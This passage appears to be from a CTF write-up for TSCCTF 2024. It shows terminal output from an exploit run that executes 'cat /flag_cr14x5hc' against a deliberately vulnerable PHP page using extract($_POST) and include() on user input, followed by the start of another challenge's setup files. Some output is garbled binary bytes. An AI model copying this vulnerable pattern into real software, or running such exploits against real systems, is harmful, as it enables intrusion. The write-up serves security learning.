 ```bash
tmp
usr
var
�
P�������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@
$ python exp.py cat /flag_cr14x5hc
<h1>👻 Stage 4 / 4</h1><code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br /></span><span style="color: #007700">echo&nbsp;</span><span style="color: #DD0000">'&lt;h1&gt;👻&nbsp;Stage&nbsp;4&nbsp;/&nbsp;4&lt;/h1&gt;'</span><span style="color: #007700">;<br /><br /></span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />echo&nbsp;</span><span style="color: #DD0000">'&lt;hr&gt;'</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">extract</span><span style="color: #007700">(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">);<br /><br />if&nbsp;(isset(</span><span style="color: #0000BB">$👀</span><span style="color: #007700">))&nbsp;<br />&nbsp;&nbsp;&nbsp;&nbsp;include(</span><span style="color: #0000BB">$👀</span><span style="color: #007700">);<br />else&nbsp;die(</span><span style="color: #DD0000">'ERROR:&nbsp;👀&nbsp;should&nbsp;be&nbsp;given'</span><span style="color: #007700">);</span>
</span>
</code><hr>TSC{y0u_4r3_my_0ld_p4l}
�B�0���>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@
```

Flag: `TSC{y0u_4r3_my_0ld_p4l}`

### Palitan ng pera(賽後解)

#### Description
> It's a currency exchange website.
>
> Author: Vincent55
> Official Writeup - https://github.com/Vincent550102/My-CTF-Challenge/tree/main/TSCCTF-2024#palitan-ng-pera

#### Source Code
* docker-compose.yml
    ```dockerfile!
    version: "3.5"
    services:
        exchange:
            build:
                context: ./src
                args:
                    FLAG: TSCCTF{FAKEFLAG} 
            ports:
                - 33000:80/tcp
    ```
* Dockerfile
    ```dockerfile!
    FROM php:7.4.33-apache
